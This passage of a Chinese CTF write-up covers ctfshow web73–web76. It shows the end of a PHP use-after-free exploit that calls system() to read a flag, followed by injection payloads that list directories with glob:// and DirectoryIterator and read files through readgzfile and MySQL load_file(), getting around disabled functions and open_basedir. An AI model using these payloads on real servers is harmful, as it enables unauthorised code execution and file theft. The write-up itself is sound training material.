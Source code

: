 ```
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");exit();
```

## web73

用`c=var_export(scandir('/'));exit();`查看根目录，发现文件名变成了`flagc.txt`，然后`c=include('flagc.txt');exit();`读取文件

## web74

`scandir()`被禁用了，用glob协议查看目录，

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();
```

文件名又被改成`flagx.txt`，然后读文件`c=readgzfile('/flagx.txt');exit();`

## web75

用glob伪协议查看根目录，找到文件`flag36.txt`，`include`读文件发现`open_basedir`限制，尝试web72的uaf脚本，脚本中有函数被禁用了，好像这个方法也不行了，看了下题目给的hint，

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

php调用数据库的功能，这里利用MySQL的`load_file()`函数进行读取文件，可以绕过了`open_basedir`限制，注意这里要知道数据库的基本信息

## web76
